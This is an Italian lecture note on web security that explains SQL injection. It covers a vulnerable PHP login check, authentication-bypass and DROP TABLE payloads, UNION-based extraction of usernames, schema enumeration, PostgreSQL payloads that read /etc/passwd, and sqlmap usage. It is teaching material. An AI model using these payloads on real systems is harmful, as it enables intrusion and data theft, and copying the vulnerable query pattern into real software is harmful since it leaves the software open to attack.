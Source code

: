 ```yaml
---
id: '17'
lezione: "20231123"
title: "Web security - 2"
author: "Sam. K."
keywords: ["sql injection","sql","php", "sql injection payloads", "sql map"]
---
```


<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>

# Web security - 2
```sh
docker exec -it <container_name> /bin/sh # per accedere al container con terminale bash
```

## SQL injection
SQL injection è una tecnica di attacco web che permette di bypassare controllo degli accessi, estrarre informazioni dal database oppure di compromettere il database attraverso una iniezione del codice SQL maligno. 

![SQL injection](assets/images/SQL-Injection.jpg)

Alcuni esempi:    

Questo codice può essere usato per esempio se il server fa un controllo del password come 

```php
$password = $_POST['password'];

$check = query("SELECT * FROM login_tb WHERE password='$password'");

if($check>0) echo 'OK';
```
```sql
-- se uso il seguente input come password, posso bypassare il check
' OR 1=1; -- 
```
```php
query("SELECT * FROM login_tb WHERE password='' OR 1=1; --");
```
Cioè il risultato sarà sempre `TRUE` perché `1=1` è sempre vera, inoltre con `--` viene commentato tutto il resto della riga.

"`--`" SQL comment

Altri esempio:
```sql
SELECT * FROM Products WHERE ProductID = 15; DROP TABLE Suppliers;
SELECT * FROM Orders WHERE OrderID = 16 AND 1=1;
SELECT * FROM Users WHERE Login = 'Admin' -- ' AND Password=' '
```

```sql
SELECT productid,name,price FROM products WHERE Name=' *' UNION SELECT 1, string_agg(username,','), 1 FROM users*
```

Una funzione molto usata di postgres è `string_agg('colonna',' ,')` string aggregate restituisce i risultati della query aggregando tutto in una riga con entry separate con una virgola, l'attaccante pensa sempre che ci sia un `LIMIT 1`.


```sql
select * somethin,somethin from table_name UNION select something,somethin from table_name;
```

`UNION` deve avere delle colonne che hanno la stessa grandezza

```sql
select * from <table_name> order by <col_number>
```

`UNION SELECT 1,NULL,NULL;` per scoprire se la prima colonna è numerico ignorando = `NULL` la colonna 2 e 3, se questa query va a buon fine significa che è una colonna di tipo numerico (intero). Con questo modo si può scoprire che il tipo di colonna oppure se esiste una certa colonna.

## Un modo per scoprire tutte le tabelle e colonne del database.

```sql
select column_name from information_schema.columns  -- all columns 
select table_name from information_schema.tables -- all tables
```

`information_schema` normalmente è protetta con un controllo degli accessi.

[SQL injection payloads](https://github.com/payloadbox/sql-injection-payload-list) una lista di payloads.

```sql
UNION SELECT null,version(),null FROM pg_stat_user_tables -- stampa informazioni tecniche del database

union select null,pg_is_dir('/bin'),null from pg_stat_user_tables -- stampa i file della directory

union select null,pg_read_file('etc/passwd'),null from pg_stat_user_tables -- legge il file
```
## SQL Map
SQLmap un tool per automatizzare il testing di sql injection con una serie di payload
[SQL map](https://github.com/sqlmapproject/sqlmap)

```sh
python3 sqlmap.py -u "url"
```